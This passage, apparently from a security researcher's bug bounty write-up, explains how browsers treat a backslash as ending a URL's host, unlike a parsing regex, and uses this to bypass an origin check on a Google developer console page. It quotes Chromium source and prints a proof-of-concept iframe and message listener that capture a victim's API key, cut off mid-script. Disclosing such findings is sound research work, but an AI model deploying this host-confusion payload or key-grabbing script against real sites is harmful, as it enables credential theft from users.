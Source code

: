 This is just what we needed!

In the browser, besides `/`, `?` and `#`, `\` also ends the authority!

I tested it the 3 major browsers I had on hand (Firefox, Chrome, Safari) and all of them had the same result.

After this, I found the source of this behaviour in [Chromium's source code](https://source.chromium.org/chromium/chromium/src/+/master:url/third_party/mozilla/url_parse.cc;l=821;){:target="_blank"}:
```c
bool IsAuthorityTerminator(base::char16 ch) {
  return IsURLSlash(ch) || ch == '?' || ch == '#';
}
```

And the `IsURLSlash` function:

```c
inline bool IsURLSlash(base::char16 ch) {
  return ch == '/' || ch == '\\';
}
```

Again, I was always "afraid" to dig this deep, and would never have thought about looking into the source code of a browser, but after browsing around a bit, you realise that this code is also just code, and you can understand how it works. This is super and interesting and can be really helpful in many situations. I could have just looked into the source code to find this bug, skipping the whole fuzzer part.

Using this bug, we can demo the exploit in the JS Console:
```js
// Regex parsing
"https://user:pass@xdavidhu.me\\test.corp.google.com:8080/path/to/something?param=value#hash".match(magicRegex)

Array(8) [ "https://user:pass@xdavidhu.me\\test.corp.google.com:8080/path/to/something?param=value#hash",
           "https", "user:pass", "xdavidhu.me\\test.corp.google.com", "8080", "/path/to/something", "param=value", "hash" ]

// Browser parsing
new URL("https://user:pass@xdavidhu.me\\test.corp.google.com:8080/path/to/something?param=value#hash")

URL { href: "https://user:pass@xdavidhu.me/test.corp.google.com:8080/path/to/something?param=value#hash",
      origin: "https://xdavidhu.me", protocol: "https:", username: "user", password: "pass", host: "xdavidhu.me",
      hostname: "xdavidhu.me", port: "", pathname: "/test.corp.google.com:8080/path/to/something", search: "?param=value" }
```

We can see that this works as we wanted it to, so we can make a POC, which will embed `henhouse`, and grab the victim's API key.

```html
<iframe id="test" src='https://console.developers.google.com/henhouse/?pb=["hh-0","gmail",null,[],"https://xdavidhu.me\\test.corp.google.com",null,[],null,"Create API key",0,null,[],false,false,null,null,null,null,false,null,false,false,null,null,null,null,null,"Quickstart",true,"Quickstart",null,null,false]'></iframe>

<script>
window.addEventListener('message', function (d) {
  console.log(d.data);
  if(d.data[1] == "apikey-credential"){
    var h1 = document.createElement('h1');
    h1.innerHTML = "Your API key: " + d.data[2];
    document.body.appendChild(h1);
  }
```